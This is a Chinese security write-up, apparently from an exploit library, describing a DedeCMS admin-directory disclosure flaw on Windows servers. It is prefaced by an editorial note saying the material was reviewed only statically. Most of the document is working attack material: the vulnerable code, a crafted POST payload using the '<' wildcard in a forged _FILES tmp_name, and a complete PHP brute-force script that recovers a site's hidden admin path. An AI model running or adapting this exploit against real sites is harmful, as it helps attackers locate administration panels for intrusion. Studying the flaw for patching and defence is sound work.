



## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：Windows wildcard handling; known image in admin directory; global variable registration allows crafted _FILES; version absent

- **结论使用边界（1）**：Correctly preserves correction: name, not tmp_name, must pass extension check。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **证据待核（2）**：getimagesize checks image metadata, not just file existence; prerequisite stated。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

- **结论使用边界（3）**：Enumeration PHP loops can run indefinitely if no matching directory/charset; no timeout。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **证据待核（4）**：Reference section empty; local image URLs imply original XZ source but not article URL。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# DedeCms后台地址泄露漏洞

### 利用限制

- 仅针对windows系统

### 进入正题

首先看核心文件common.inc.php 大概148行左右

```
if($_FILES)
{
    require_once(DEDEINC.'/uploadsafe.inc.php');
}
```

uploadsafe.inc.php

```
if( preg_match('#^(cfg_|GLOBALS)#', $_key) )
{
    exit('Request var not allow for uploadsafe!');
}
$$_key = $_FILES[$_key]['tmp_name']; //获取temp_name 
${$_key.'_name'} = $_FILES[$_key]['name'];
${$_key.'_type'} = $_FILES[$_key]['type'] = preg_replace('#[^0-9a-z\./]#i', '', $_FILES[$_key]['type']);
${$_key.'_size'} = $_FILES[$_key]['size'] = preg_replace('#[^0-9]#','',$_FILES[$_key]['size']);
if(!empty(${$_key.'_name'}) && (preg_match("#\.(".$cfg_not_allowall.")$#i",${$_key.'_name'}) || !preg_match("#\.#", ${$_key.'_name'})) )
{
    if(!defined('DEDEADMIN'))
    {
        exit('Not Admin Upload filetype not allow !');
    }
}
if(empty(${$_key.'_size'}))
{
    ${$_key.'_size'} = @filesize($$_key);
}
$imtypes = array
(
    "image/pjpeg", "image/jpeg", "image/gif", "image/png", 
    "image/xpng", "image/wbmp", "image/bmp"
);
if(in_array(strtolower(trim(${$_key.'_type'})), $imtypes))
{
    $image_dd = @getimagesize($$_key); 
    //问题就在这里，获取文件的size，获取不到说明不是图片或者图片不存在，不存就exit upload.... ,利用这个逻辑猜目录的前提是目录内有图片格式的文件。
    if (!is_array($image_dd))
    {
        exit('Upload filetype not allow !');
    }
}
......
```

注意`$$_key`这一句，变量`$key`取自于`$_FILE`，由于`$_FILE`可控自然`$key`也可控,此处理论上是可以覆盖任意变量，但是前面有个正则判断不能出现`cfg_|GLOBALS`。(但是应该还可以覆盖其他变量此处感觉还可以深挖)

本人出发点是找个可以利用`<<`通配符猜解后台目录，所以只要`$$_key`参数可控就可以达到目的。

修正一处笔误。
 ~~但在这之前有个`if(!defined('DEDEADMIN'))`的判断,这个很好绕过设置`tmp_name为0或者1.jpg含.` 就可以绕过。~~

```
if(!empty(${$_key.'_name'}) && (preg_match("#\.(".$cfg_not_allowall.")$#i",${$_key.'_name'}) || !preg_match("#\.#", ${$_key.'_name'})) )
    {   
        if(!defined('DEDEADMIN'))
        {
            exit('Not Admin Upload filetype not allow !');
        }
    }
    这个判断只需要设置${$_key.'_name'} 的值为0或者1.jpg 含点“ . ” 既可以绕过 如：_FILES[b4dboy][name]=1.jpg
```

最后关键的一点就是要让文件存在还和不存在返回不同的内容就要控制type参数了。

当目录文件存在的时候 返回正常页面。当不存在的时候返回：Upload filetype not allow !

### 举个例子

文字不好表达，便于理解。

```
<?php
// ./dedecms/favicon.ico
if(@getimagesize($_GET['poc'])){
    echo 1;
}else {
    echo 0;
}
?>
get:
http://localhost/test.php?poc=./d</favicon.ico
返回：1

http://localhost/test.php?poc=./a</favicon.ico
返回：0

http://localhost/test.php?poc=./de</favicon.ico
返回：1

http://localhost/test.php?poc=./ded</favicon.ico
返回：1

........
```

### 构造poc

```
http://localhost/dedecms/tags.php

post:

dopost=save&_FILES[b4dboy][tmp_name]=./de</images/admin_top_logo.gif&_FILES[b4dboy][name]=0&_FILES[b4dboy][size]=0&_FILES[b4dboy][type]=image/gif
```

Common.inc.php 是被全局包含的文件，只要文件php文件包含了Common.inc.php都可以进行测试，以tags.php文件为例

当目录存在点时候： 图1

[](https://xzfile.aliyuncs.com/media/upload/picture/20180123000649-4080b60c-ff8e-1.png)
 当目录不存在点时候： 图2
 [](https://xzfile.aliyuncs.com/media/upload/picture/20180123000533-133714d4-ff8e-1.png)

### EXP：

```
<?php
$domain='http://localhost/dedecms/';
$url=$domain.'/index.php';
function post($url, $data, $cookie = '') {
    $options = array(
        CURLOPT_RETURNTRANSFER => true,
        CURLOPT_HEADER => true,
        CURLOPT_POST => true,
        CURLOPT_SSL_VERIFYHOST => false,
        CURLOPT_SSL_VERIFYHOST => false,
        CURLOPT_COOKIE => $cookie,
        CURLOPT_POSTFIELDS => $data,
    );
    $ch = curl_init($url);
    curl_setopt_array($ch, $options);
    $result = curl_exec($ch);
    curl_close($ch);
    return $result;
}
$testlen=25;
$str=range('a','z');
$number=range(0,9,1);
$dic = array_merge($str, $number);
$n=true;
$nn=true;
$path='';
while($n){
    foreach($dic as $v){
        foreach($dic as $vv){
            #echo $v.$vv .'----';
            $post_data="dopost=save&_FILES[b4dboy][tmp_name]=./$v$vv</images/admin_top_logo.gif&_FILES[b4dboy][name]=0&_FILES[b4dboy][size]=0&_FILES[b4dboy][type]=image/gif";
            $result=post($url,$post_data);
            if(strpos($result,'Upload filetype not allow !') === false){
                $path=$v.$vv;$n=false;break 2;
            }
        }
    }
}
while($nn){
    foreach($dic as $vvv){
        $post_data="dopost=save&_FILES[b4dboy][tmp_name]=./$path$vvv</images/admin_top_logo.gif&_FILES[b4dboy][name]=0&_FILES[b4dboy][size]=0&_FILES[b4dboy][type]=image/gif";
        $result=post($url,$post_data);
        if(strpos($result,'Upload filetype not allow !') === false){
            $path.=$vvv;
            echo $path . PHP_EOL;
            $giturl=$domain.'/'.$path.'/images/admin_top_logo.gif';
            if(@file_get_contents($giturl)){
                echo $domain.'/'.$path.'/';
                $nn=false;break 2;
            }
        }
    }
}
?>
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20180123000746-62cc9f96-ff8e-1.png)

### 感谢

感谢给我提供这个思路的朋友

##### 参考文章


---

> 来源：白阁文库 BaizeSec/bylibrary
